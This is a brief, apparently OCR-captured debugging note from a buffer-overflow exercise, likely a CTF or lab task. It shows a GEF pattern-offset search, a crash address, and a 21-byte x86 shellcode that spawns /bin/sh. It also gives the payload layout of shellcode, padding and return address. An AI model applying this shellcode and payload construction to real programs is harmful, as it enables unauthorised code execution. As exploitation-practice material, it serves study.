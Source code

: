 gef➤  pattern offset 0x65616161
[+] Searching for '61616165'/'65616161' with period=4
[+] Found at offset 13 (little-endian search) likely

 stopped 0x65616161 in ?? (), reason: SIGSEGV

- buffer address = 0xffffd2c6
- shell code : ```\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80``` (21 bytes)
- offset = 13 ?

payload = shell code (20 byte) + \n +shell code (1byt) + Offset - 1 + buffer address
